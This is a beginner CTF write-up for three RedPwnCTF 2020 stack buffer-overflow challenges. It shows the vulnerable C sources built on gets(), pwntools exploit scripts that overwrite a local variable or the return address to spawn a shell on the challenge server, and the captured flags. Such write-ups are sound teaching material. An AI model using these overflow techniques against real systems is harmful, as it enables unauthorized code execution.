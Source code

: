```yaml
---
id: 0
title: "Writeup for RedPwnCTF 2020 coffer-overflow-0, 1, 2"
subtitle: "Beginner's Pwn"
date: "2020.26.06"
tags: "ctf, linux-bof"
---
```


# coffer-overflow 0

### Basics of the basics
So, how do we approach this question? We can take a look at the source provided (coffer-overflow-0.c):
```c
#include <stdio.h>
#include <string.h>

int main(void)
{
	long code = 0;
	char name[16];
  
	setbuf(stdout, NULL);
	setbuf(stdin, NULL);
	setbuf(stderr, NULL);

	puts("Welcome to coffer overflow, where our coffers are overfilling with bytes ;)");
	puts("What do you want to fill your coffer with?");

	gets(name);

	if(code != 0) {
		system("/bin/sh");
	}
}
```

It looks like a standard buffer overflow question where the vulnerability here is gets(), which does not specify the amount of bytes it should accept. Since the variable we're writing to, `char name[16]` has a allocated buffer size of 16, we just need to overflow past that to start overwriting the variables we want, which in this case is `code`.

This is our target line:
```c
if(code != 0) {
		system("/bin/sh");
	}
```

As long as we are able to overwrite `code`, it doesn't matter what we overwrite it with, it will redirect us to shell.
Since stack space is generally allocated in multiples of 16, and this function declares `16+8=24 < 32` bytes for the variables, we can assume 32 bytes would be allocated to the function. Hence we just need to overwrite into the last 8 bytes of the stack and we should overwrite `code`. The length of our exploit would be 32-8+1 = 25.

Here is the final exploit:
```python
#!/usr/bin/env python

from pwn import *
e = ELF("./coffer-overflow-0")
p = remote("2020.redpwnc.tf", 31199)

p.recvline()
p.recvline()
p.sendline("A"*25)
p.interactive()
```

This should redirect us to shell, and with a simple `ls` we can see an entry `flag.txt`, so we simply do `cat flag.txt` to obtain the flag:
```
$ ls
Makefile
bin
coffer-overflow-0
coffer-overflow-0.c
dev
flag.txt
lib
lib32
lib64
$ cat flag.txt
flag{b0ffer_0verf10w_3asy_as_123}
```

# coffer-overflow-1

### Slightly more advanced
We take a look at the source code:
```c
#include <stdio.h>
#include <string.h>

int main(void)
{
	long code = 0;
	char name[16];
	
	setbuf(stdout, NULL);
	setbuf(stdin, NULL);
	setbuf(stderr, NULL);

	puts("Welcome to coffer overflow, where our coffers are overfilling with bytes ;)");
	puts("What do you want to fill your coffer with?");

	gets(name);

	if(code == 0xcafebabe) {
		system("/bin/sh");
	}
}
```

This time, we would need to not only overwrite `code`, but also overwrite it with value `0xcafebabe` in little endian.
We use the same approach as before, with a padding of 32-8 = 24 characters followed by `0xcafebabe` in little endian.

Here is the final exploit:
```python
#!/usr/bin/env python

from pwn import *

e = ELF("./coffer-overflow-1")
p = remote("2020.redpwnc.tf", 31255)

print(p.recvline())
print(p.recvline())
payload = b"A"*24
payload += p64(0xcafebabe)
p.sendline(payload)
p.interactive()
```

This should redirect us to shell:
```
$ ls
Makefile
bin
coffer-overflow-1
coffer-overflow-1.c
dev
flag.txt
lib
lib32
lib64
$ cat flag.txt
flag{th1s_0ne_wasnt_pure_gu3ssing_1_h0pe}
```

# coffer-overflow-2

### Ret 2 bin?
Similarly, we take a quick look at the source code:
```c
#include <stdio.h>
#include <string.h>

int main(void)
{
	long code = 0;
	char name[16];
  
	setbuf(stdout, NULL);
	setbuf(stdin, NULL);
	setbuf(stderr, NULL);

	puts("Welcome to coffer overflow, where our coffers are overfilling with bytes ;)");
	puts("What do you want to fill your coffer with?");

	gets(name);

}

void binFunction() {
	system("/bin/sh");
}
```

Ah, now we get to ROP. We simply need to ROP to binFunction() to execute it, which will redirect us to shell.

There are many ways to find the address of the function, we can use `objdump -d` to find the address of binFunction():
```
$ objdump -d coffer-overflow-2 | grep binFunction
00000000004006e6 <binFunction>:
```

Now we just need to overwrite the `rip` register with this value in little endian.
We take 16 random characters + 8 to overwrite the `rbp` register for a padding of 24.

Here is the final exploit:
```python
#!/usr/bin/env python

from pwn import *

e = ELF("./coffer-overflow-2")
p = remote("2020.redpwnc.tf", 31908)

print(p.recvline())
print(p.recvline())
payload = b"A"*24
payload += p64(0x4006e6)
p.sendline(payload)
p.interactive()
```

This redirects us to shell:
```
$ ls
Makefile
bin
coffer-overflow-2
coffer-overflow-2.c
dev
flag.txt
lib
lib32
lib64
$ cat flag.txt
flag{ret_to_b1n_m0re_l1k3_r3t_t0_w1n}
```

# Final words
Overall, these challenges were pretty easy and meant for beginner CTF players, but it was still good practice to get used to the most basic form buffer overflow.
